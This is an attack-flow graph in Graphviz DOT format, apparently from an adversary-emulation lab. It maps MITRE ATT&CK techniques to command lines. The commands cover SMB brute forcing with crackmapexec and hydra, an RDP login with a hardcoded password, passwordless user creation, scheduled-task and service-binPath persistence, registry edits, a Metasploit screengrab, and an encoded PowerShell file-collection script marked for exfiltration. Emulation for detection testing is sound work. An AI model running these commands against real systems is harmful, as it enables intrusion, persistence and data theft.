	"attack-action--2c68ca29-923c-4e45-8f84-b314868bae4b" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1135</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1135</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">SMB discovery using crackmapexec</TD></TR></TABLE>> shape=plaintext]
	"attack-action--2c68ca29-923c-4e45-8f84-b314868bae4b" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--2c68ca29-923c-4e45-8f84-b314868bae4b" -> "attack-action--3757d7f8-7a8f-47f6-8fb3-15ee64d4edf3" [label=effect]
	"attack-action--2c68ca29-923c-4e45-8f84-b314868bae4b" -> "process--ca8ee74c-173f-4024-a66c-495f31b3c035" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--ca8ee74c-173f-4024-a66c-495f31b3c035" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">crackmapexec smb 10.0.0.10 ;crackmapexec smb -u &#x27;&#x27; -p &#x27;&#x27; 10.0.0.10 ;crackmapexec smb -u<br/>&#x27;root&#x27; -p &#x27;&#x27; 10.0.0.10 ;hydra -l root -P pass.list smb://10.0.0.10</TD></TR></TABLE>> shape=plaintext]
	"attack-action--3757d7f8-7a8f-47f6-8fb3-15ee64d4edf3" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1021.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1021.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attempt an RDP session via Remote<br/>Desktop Application to a<br/>DomainController thourgh first target<br/>host</TD></TR></TABLE>> shape=plaintext]
	"attack-action--3757d7f8-7a8f-47f6-8fb3-15ee64d4edf3" -> "attack-asset--88abd012-dc75-4c50-81c3-5cc148eb5a2e" [label=asset]
	"attack-action--3757d7f8-7a8f-47f6-8fb3-15ee64d4edf3" -> "attack-action--929de983-5835-4b34-91a0-fa5c3300521a" [label=effect]
	"attack-action--3757d7f8-7a8f-47f6-8fb3-15ee64d4edf3" -> "process--031e9326-ed38-4291-b15b-b0b229fe3fdd" [label=process]
	"attack-asset--88abd012-dc75-4c50-81c3-5cc148eb5a2e" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetLaterMovement</TD></TR></TABLE>> shape=plaintext]
	"process--031e9326-ed38-4291-b15b-b0b229fe3fdd" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">$Server=10.0.0.10;  $User = Join-Path aptsimulator.lab kk; $Password=&quot;ntvggfhjkm212!A&quot;; cmdkey<br/>/generic:TERMSRV/$Server /user:$User /pass:$Password;  mstsc /v:$Server;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--929de983-5835-4b34-91a0-fa5c3300521a" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1136.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1136.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Create a new local user in PowerShell</TD></TR></TABLE>> shape=plaintext]
	"attack-action--929de983-5835-4b34-91a0-fa5c3300521a" -> "attack-asset--88abd012-dc75-4c50-81c3-5cc148eb5a2e" [label=asset]
	"attack-action--929de983-5835-4b34-91a0-fa5c3300521a" -> "attack-action--a3ed05ba-9552-421d-bba1-842887c203e1" [label=effect]
	"attack-action--929de983-5835-4b34-91a0-fa5c3300521a" -> "process--0622d43b-101f-49e9-9963-eab72d4172a2" [label=process]
	"attack-asset--88abd012-dc75-4c50-81c3-5cc148eb5a2e" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetLaterMovement</TD></TR></TABLE>> shape=plaintext]
	"process--0622d43b-101f-49e9-9963-eab72d4172a2" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">New-LocalUser -Name &quot;test_user_t1136&quot; -NoPassword</TD></TR></TABLE>> shape=plaintext]
	"attack-action--a3ed05ba-9552-421d-bba1-842887c203e1" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1053.005</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1053.005</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Add binary to run on startup</TD></TR></TABLE>> shape=plaintext]
	"attack-action--a3ed05ba-9552-421d-bba1-842887c203e1" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--a3ed05ba-9552-421d-bba1-842887c203e1" -> "attack-action--21947f51-a189-4ee4-af77-589680ad8ebc" [label=effect]
	"attack-action--a3ed05ba-9552-421d-bba1-842887c203e1" -> "process--c3e0c310-d28c-4983-901f-7072d5b3cc0d" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--c3e0c310-d28c-4983-901f-7072d5b3cc0d" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">schtasks /create /tn &quot;T1053_005_OnLogon&quot; /sc onlogon /tr &quot;cmd.exe /c calc.exe&quot; ;schtasks /create /tn<br/>&quot;T1053_005_OnStartup&quot; /sc onstart /ru system /tr &quot;cmd.exe /c calc.exe&quot;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--21947f51-a189-4ee4-af77-589680ad8ebc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1136.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1136.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Create a new local user in PowerShell</TD></TR></TABLE>> shape=plaintext]
	"attack-action--21947f51-a189-4ee4-af77-589680ad8ebc" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--21947f51-a189-4ee4-af77-589680ad8ebc" -> "attack-action--4a3f39b8-8bc1-45c6-9910-09d027994bee" [label=effect]
	"attack-action--21947f51-a189-4ee4-af77-589680ad8ebc" -> "process--4d92bb7a-6ef4-4579-8971-0774d3785d35" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--4d92bb7a-6ef4-4579-8971-0774d3785d35" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">New-LocalUser -Name &quot;test_user_t1136&quot; -NoPassword</TD></TR></TABLE>> shape=plaintext]
	"attack-action--4a3f39b8-8bc1-45c6-9910-09d027994bee" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1112</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1112</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Modify Registry under current user</TD></TR></TABLE>> shape=plaintext]
	"attack-action--4a3f39b8-8bc1-45c6-9910-09d027994bee" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--4a3f39b8-8bc1-45c6-9910-09d027994bee" -> "attack-action--40ce6e96-d944-4009-bd0b-421e96c1887d" [label=effect]
	"attack-action--4a3f39b8-8bc1-45c6-9910-09d027994bee" -> "process--ce7f1807-e32c-4306-b8f9-14767c48117e" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--ce7f1807-e32c-4306-b8f9-14767c48117e" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">reg add HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced /t REG_DWORD /v HideFileExt<br/>/d 1 /f ;reg add HKEY_CURRENT_USER\\Software\\APTSimulator\\NewSetting /v T1112Test /t REG_SZ /d &quot;T1112Test&quot;<br/>/f</TD></TR></TABLE>> shape=plaintext]
	"attack-action--40ce6e96-d944-4009-bd0b-421e96c1887d" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1543.003</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1543.003</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Modify default Fax by changing the<br/>binPath to PowerShell to spawn<br/>powershell.</TD></TR></TABLE>> shape=plaintext]
	"attack-action--40ce6e96-d944-4009-bd0b-421e96c1887d" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--40ce6e96-d944-4009-bd0b-421e96c1887d" -> "attack-action--2d37166c-8848-4c42-bb71-55588edd85c0" [label=effect]
	"attack-action--40ce6e96-d944-4009-bd0b-421e96c1887d" -> "process--9b13e4c6-60c5-4198-af63-3427b9a0f967" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--9b13e4c6-60c5-4198-af63-3427b9a0f967" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">sc config Fax binPath=&quot;C:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -noexit -c \\&quot;write-host<br/>&#x27;T1543.003 Test&#x27;\\&quot;&quot; ;sc start Fax</TD></TR></TABLE>> shape=plaintext]
	"attack-action--2d37166c-8848-4c42-bb71-55588edd85c0" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1113</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1113</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Take screenshot using Metasploit<br/>screengrab</TD></TR></TABLE>> shape=plaintext]
	"attack-action--2d37166c-8848-4c42-bb71-55588edd85c0" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--2d37166c-8848-4c42-bb71-55588edd85c0" -> "attack-action--1c3c7927-bc02-43c4-b327-4dc6caad9b2f" [label=effect]
	"attack-action--2d37166c-8848-4c42-bb71-55588edd85c0" -> "process--4964219c-c4ed-4440-8d24-5801fdeac205" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--4964219c-c4ed-4440-8d24-5801fdeac205" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">tmux send-keys -t metasploit_handler &#x27;sessions -c screengrab&#x27; C-m</TD></TR></TABLE>> shape=plaintext]
	"attack-action--1c3c7927-bc02-43c4-b327-4dc6caad9b2f" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1012</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1012</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Simply Query Registry</TD></TR></TABLE>> shape=plaintext]
	"attack-action--1c3c7927-bc02-43c4-b327-4dc6caad9b2f" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--1c3c7927-bc02-43c4-b327-4dc6caad9b2f" -> "attack-action--19867757-be2a-4396-8088-df188e2158d9" [label=effect]
	"attack-action--1c3c7927-bc02-43c4-b327-4dc6caad9b2f" -> "process--0eff12a9-8bed-4d5f-acf2-768459cb777f" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--0eff12a9-8bed-4d5f-acf2-768459cb777f" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">reg query &quot;HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows&quot; ;reg query<br/>HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce ;reg query<br/>HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce ;reg query<br/>HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices ;reg query<br/>HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices ;reg query &quot;HKLM\\SOFTWARE\\Microsoft\\Windows<br/>NT\\CurrentVersion\\Winlogon\\Notify&quot; ;reg query &quot;HKLM\\Software\\Microsoft\\Windows<br/>NT\\CurrentVersion\\Winlogon\\Userinit&quot; ;reg query &quot;HKCU\\Software\\Microsoft\\Windows<br/>NT\\CurrentVersion\\Winlogon\\\\Shell&quot; ;reg query &quot;HKLM\\Software\\Microsoft\\Windows<br/>NT\\CurrentVersion\\Winlogon\\\\Shell&quot; ;reg query<br/>HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\ShellServiceObjectDelayLoad ;reg query<br/>HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce ;reg query<br/>HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx ;reg query<br/>HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run ;reg query<br/>HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run ;reg query<br/>HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce ;reg query<br/>HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run ;reg query<br/>HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run ;reg query<br/>HKLM\\system\\currentcontrolset\\services /s | findstr ImagePath 2&gt;nul | findstr /Ri &quot;.*\\.sys$&quot; ;reg query<br/>HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run ;reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\SafeBoot<br/>;reg query &quot;HKLM\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components&quot; ;reg query<br/>&quot;HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Group Policy\\Scripts\\Startup&quot;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--19867757-be2a-4396-8088-df188e2158d9" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1005</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1005</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Search files of interest and save them<br/>to a single zip file and exfiltrate</TD></TR></TABLE>> shape=plaintext]
	"attack-action--19867757-be2a-4396-8088-df188e2158d9" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--19867757-be2a-4396-8088-df188e2158d9" -> "attack-action--6e7d7c75-d416-4dfd-a912-2f179b7ffbca" [label=effect]
	"attack-action--19867757-be2a-4396-8088-df188e2158d9" -> "attack-action--fb1f2cb1-bf97-483e-bb9f-d4629c64c243" [label=effect]
	"attack-action--19867757-be2a-4396-8088-df188e2158d9" -> "attack-action--5eeaf6de-09de-4da0-8c36-00b147129aac" [label=effect]
	"attack-action--19867757-be2a-4396-8088-df188e2158d9" -> "process--91e42499-6d95-4836-9d4f-aaca815fc353" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--91e42499-6d95-4836-9d4f-aaca815fc353" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">powershell -Encodedcommand &quot;JABzAHQAYQByAHQAaQBuAGcARABpAHIAZQBjAHQAbwByAHkAIAA9ACAAIgAjAHsAcwB0AGEAcgB0AGkAbgBnAF8<br/>AZABpAHIAZQBjAHQAbwByAHkAfQAiAAoAJABvAHUAdABwAHUAdABaAGkAcAAgAD0AIAAiACMAewBvAHUAdABwAHUAdABfAHoAaQBwAF8AZgBvAGwAZABlAHI<br/>AXwBwAGEAdABoAH0AIgAKACQAZgBpAGwAZQBFAHgAdABlAG4AcwBpAG8AbgBzAFMAdAByAGkAbgBnACAAPQAgACIAIwB7AGYAaQBsAGUAXwBlAHgAdABlAG4<br/>AcwBpAG8AbgBzAH0AIgAgAAoAJABmAGkAbABlAEUAeAB0AGUAbgBzAGkAbwBuAHMAIAA9ACAAJABmAGkAbABlAEUAeAB0AGUAbgBzAGkAbwBuAHMAUwB0AHI<br/>AaQBuAGcAIAAtAHMAcABsAGkAdAAgACIALAAgACIACgAKAE4AZQB3AC0ASQB0AGUAbQAgAC0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAAJABvAHU<br/>AdABwAHUAdABaAGkAcAAgAC0ARQByAHIAbwByAEEAYwB0AGkAbwBuACAASQBnAG4AbwByAGUAIAAtAEYAbwByAGMAZQAgAHwAIABPAHUAdAAtAE4AdQBsAGw<br/>ACgAKAEYAdQBuAGMAdABpAG8AbgAgAFMAZQBhAHIAYwBoAC0ARgBpAGwAZQBzACAAewAKACAAIABwAGEAcgBhAG0AIAAoAAoAIAAgACAAIABbAHMAdAByAGk<br/>AbgBnAF0AJABkAGkAcgBlAGMAdABvAHIAeQAKACAAIAApAAoAIAAgACQAZgBpAGwAZQBzACAAPQAgAEcAZQB0AC0AQwBoAGkAbABkAEkAdABlAG0AIAAtAFA<br/>AYQB0AGgAIAAkAGQAaQByAGUAYwB0AG8AcgB5ACAALQBGAGkAbABlACAALQBSAGUAYwB1AHIAcwBlACAAfAAgAFcAaABlAHIAZQAtAE8AYgBqAGUAYwB0ACA<br/>AewAKACAAIAAgACAAJABmAGkAbABlAEUAeAB0AGUAbgBzAGkAbwBuAHMAIAAtAGMAbwBuAHQAYQBpAG4AcwAgACQAXwAuAEUAeAB0AGUAbgBzAGkAbwBuAC4<br/>AVABvAEwAbwB3AGUAcgAoACkACgAgACAAfQAKACAAIAByAGUAdAB1AHIAbgAgACQAZgBpAGwAZQBzAAoAfQAKAAoAJABmAG8AdQBuAGQARgBpAGwAZQBzACA<br/>APQAgAFMAZQBhAHIAYwBoAC0ARgBpAGwAZQBzACAALQBkAGkAcgBlAGMAdABvAHIAeQAgACQAcwB0AGEAcgB0AGkAbgBnAEQAaQByAGUAYwB0AG8AcgB5AAo<br/>AaQBmACAAKAAkAGYAbwB1AG4AZABGAGkAbABlAHMALgBDAG8AdQBuAHQAIAAtAGcAdAAgADAAKQAgAHsACgAgACAAJABmAG8AdQBuAGQARgBpAGwAZQBQAGE<br/>AdABoAHMAIAA9ACAAJABmAG8AdQBuAGQARgBpAGwAZQBzAC4ARgB1AGwAbABOAGEAbQBlAAoAIAAgAEMAbwBtAHAAcgBlAHMAcwAtAEEAcgBjAGgAaQB2AGU<br/>AIAAtAFAAYQB0AGgAIAAkAGYAbwB1AG4AZABGAGkAbABlAFAAYQB0AGgAcwAgAC0ARABlAHMAdABpAG4AYQB0AGkAbwBuAFAAYQB0AGgAIAAiACQAbwB1AHQ<br/>AcAB1AHQAWgBpAHAAXABkAGEAdABhAC4AegBpAHAAIgAKAAoAIAAgAFcAcgBpAHQAZQAtAEgAbwBzAHQAIAAiAFoAaQBwACAAZgBpAGwAZQAgAGMAcgBlAGE<br/>AdABlAGQAOgAgACQAbwB1AHQAcAB1AHQAWgBpAHAAXABkAGEAdABhAC4AegBpAHAAIgAKACAAIAB9ACAAZQBsAHMAZQAgAHsACgAgACAAIAAgACAAIABXAHI<br/>AaQB0AGUALQBIAG8AcwB0ACAAIgBOAG8AIABmAGkAbABlAHMAIABmAG8AdQBuAGQAIAB3AGkAdABoACAAdABoAGUAIABzAHAAZQBjAGkAZgBpAGUAZAAgAGU<br/>AeAB0AGUAbgBzAGkAbwBuAHMALgAiAAoAIAAgAH0A&quot;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--fb1f2cb1-bf97-483e-bb9f-d4629c64c243" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1048.003: Exfiltration Over Alternative Protocol, Exfiltration Over Unencrypted Non-C2 Protocol</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1048.003: Exfiltration Over Alternative Protocol, Exfiltration Over Unencrypted Non-C2 Protocol</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--5eeaf6de-09de-4da0-8c36-00b147129aac" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1001: Data Obfuscation</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1001: Data Obfuscation</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--6e7d7c75-d416-4dfd-a912-2f179b7ffbca" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1547</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1547</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Install a driver via pnputil.exe</TD></TR></TABLE>> shape=plaintext]
	"attack-action--6e7d7c75-d416-4dfd-a912-2f179b7ffbca" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--6e7d7c75-d416-4dfd-a912-2f179b7ffbca" -> "attack-action--aca0bdf1-ad16-42b4-b2bf-51697868855c" [label=effect]
	"attack-action--6e7d7c75-d416-4dfd-a912-2f179b7ffbca" -> "process--d41d8e10-722e-42ff-9a0d-a9d2d43a2fa8" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
